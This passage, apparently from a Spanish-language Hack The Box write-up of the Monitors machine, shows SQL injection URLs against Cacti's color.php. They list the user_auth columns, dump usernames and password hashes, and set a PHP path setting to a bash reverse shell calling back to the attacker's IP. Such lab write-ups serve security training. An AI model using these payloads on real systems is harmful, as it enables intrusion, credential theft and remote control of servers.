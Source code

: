 ```
http://cacti-admin.monitors.htb/cacti/color.php?action=export&filter=1')+UNION+SELECT+NULL,column_name,NULL,NULL,NULL,NULL,NULL+FROM+information_schema.columns+WHERE+table_name='user_auth';--+-
```

![38](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/38.png){:class="blog-image" onclick="expandImage(this)"}

Entre las columnas, nos interesan `username` y `password`. Usando la siguiente inyección, listaremos los valores de estas columnas:

```
http://cacti-admin.monitors.htb/cacti/color.php?action=export&filter=1')+UNION+SELECT+NULL,username,password,NULL,NULL,NULL,NULL+from+user_auth;--+-
```

Esto nos revela dos usuarios: _admin_ y _guest_, aunque sus contraseñas están hasheadas. 

![39](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/39.png){:class="blog-image" onclick="expandImage(this)"}

Sin embargo, existe una segunda inyección que nos permite obtener una _reverse shell_ dentro de la máquina. Esta inyección se realiza de la siguiente manera:

```
http://cacti-admin.monitors.htb/cacti/color.php?action=export&filter=1')+UPDATE+settings+SET+value='bash -i >& /dev/tcp/<nuestraIP>/443 0>&1;'+WHERE+name='path_php_binary';--+-
```

